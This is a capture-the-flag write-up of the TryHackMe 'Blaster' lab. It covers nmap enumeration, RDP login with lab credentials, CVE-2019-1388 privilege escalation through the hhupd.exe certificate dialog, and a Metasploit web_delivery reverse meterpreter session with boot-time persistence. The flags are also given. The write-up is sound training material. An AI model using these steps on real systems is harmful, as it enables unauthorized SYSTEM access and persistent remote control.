## Blaster Writeup

    Box IP Addresses:

    10.10.26.103

We first perform an nmap scan:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/blaster/docs$ nmap -sC -sV 10.10.26.103
    
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-27 18:49 EDT
    
    Nmap scan report for 10.10.26.103
    
    Host is up (0.045s latency).
    
    Not shown: 998 filtered ports
    
    PORT     STATE SERVICE       VERSION
    
    80/tcp   open  http          Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: RETROWEB
    |   NetBIOS_Domain_Name: RETROWEB
    |   NetBIOS_Computer_Name: RETROWEB
    |   DNS_Domain_Name: RetroWeb
    |   DNS_Computer_Name: RetroWeb
    |   Product_Version: 10.0.14393
    |_  System_Time: 2020-08-27T22:50:03+00:00
    | ssl-cert: Subject: commonName=RetroWeb
    | Not valid before: 2020-05-21T21:44:38
    |_Not valid after:  2020-11-20T21:44:38
    |_ssl-date: 2020-08-27T22:50:04+00:00; +7s from scanner time.
    
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: 6s, deviation: 0s, median: 6s

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 15.27 seconds

We can see 2 ports open, port 80 (HTTP) and port 3389 (RDP)

Port 80 is open, taking a look at the website:

View Source:



Title: IIS Windows Server

We can enumerate the site using gobuster, and find the directory `/retro`:



Navigating to that page, we find a username `Wade`:



and scrolling down further, we find a hint to Wade's password to log in:



Looking up Ready Player One Wade, we find a potential password, `parzival`:



We can now try to RDP into the system using Remmina:

Type in Remmina, and password (if you're not root):

- In the URL bar type in the IP address, in this case 10.10.26.103



- Accept the certificate



- Type in credentials:

Username: wade
Password: parzival
Domain: retroweb (got it from a failed attempt at using Rdesktop)

Rdesktop (failed attempt):



Creds:



and you're in!



user.txt: THM{HACK_PLAYER_ONE}

Proof:



Looking around we can see a hhupd executable of some kind.

Note - We were SUPPOSED to find the CVE in the history, however there is a bug that shows the history as cleared. Therefore for all intents and purposes lets believe I found the CVE in the history in Internet Explorer, and move on :)

CVE: CVE-2019-1388

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388

An elevation of privilege vulnerability exists in the Windows Certificate Dialog when it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'.

Exploit: https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/

In order to perform the exploit, we must use the hhupd we found earlier.

1. Right click downloaded hhupd.exe, Run as Administrator.
2. Click on "Show Details" --> "Show information about this publisher's certificate"
3. In the "General" tab, click on the "Issued By" link, press OK and exit the User Account Control pop-up box.



4. In Internet Explorer, the page should now be open. Go to Tools (cogwheel) --> File --> Save as...

5. You'll notice the Location is unavailable, which is actually a location inside `C:\Windows\system32\...`. Press "OK".



In the File name text box, type `C:\Windows\System32\*.*`. Pressing Enter will navigate the File Explorer within the panel to System32.




6. Scroll down to cmd. Right click it, Open.



7. You are now NT Authority\SYSTEM (Administrator)!



We can now read root.txt:



root.txt : THM{COIN_OPERATED_EXPLOITATAION}

### Persistence with Metasploit

First start up Metasploit `msfconsole`, and let's use this exploit:

    msf5 > use exploit/multi/script/web_delivery
    [*] Using configured payload python/meterpreter/reverse_tcp
    msf5 exploit(multi/script/web_delivery) >

Lets view the options now:

    msf5 exploit(multi/script/web_delivery) > options

    Module options (exploit/multi/script/web_delivery):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
    SRVPORT  8080             yes       The local port to listen on.
    SSL      false            no        Negotiate SSL for incoming connections
    SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
    URIPATH                   no        The URI to use for this exploit (default is random)

    Payload options (python/meterpreter/reverse_tcp):

    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST                   yes       The listen address (an interface may be specified)
    LPORT  4444             yes       The listen port

    Exploit target:

    Id  Name
    --  ----
    0   Python

We can see what other targets we can target by showing targets, with show target (phew, got through that):

    msf5 exploit(multi/script/web_delivery) > show targets

    Exploit targets:

    Id  Name
    --  ----
    0   Python
    1   PHP
    2   PSH
    3   Regsvr32
    4   pubprn
    5   PSH (Binary)
    6   Linux
    7   Mac OS X

We'll be choosing 2 (Powershell).

    msf5 exploit(multi/script/web_delivery) > set target 2
    target => 2

Set lhost (and lport) to your IP Address:

    msf5 exploit(multi/script/web_delivery) > set lhost 10.8.82.167
    lhost => 10.8.82.167

I've left my lport to the default 4444.

We will now set up a reverse_http payload:

and then run:



We can now copy + paste this code directly into the Command Prompt we opened earlier (the one with privileged access):



The command prompt will exit (don't worry!), go back to Metasploit, and you'll see a new Meterpreter session (1) has now opened!



We can join the session using sessions `-i [number of session]`, and using sysinfo, we can see we are indeed connected to RETROWEB.

Metasploit has a meterpreter script in Ruby (persistence.rb) that will create a Meterpreter service on the compromised machine. Therefore, even if the system is rebooted, access will still be available.

We can run this script in meterpreter, by typing:

    run persistence -X

the -X starts the agent when the system boots.



So now we have established persistence, and we have privesc'd as well.

Complete!

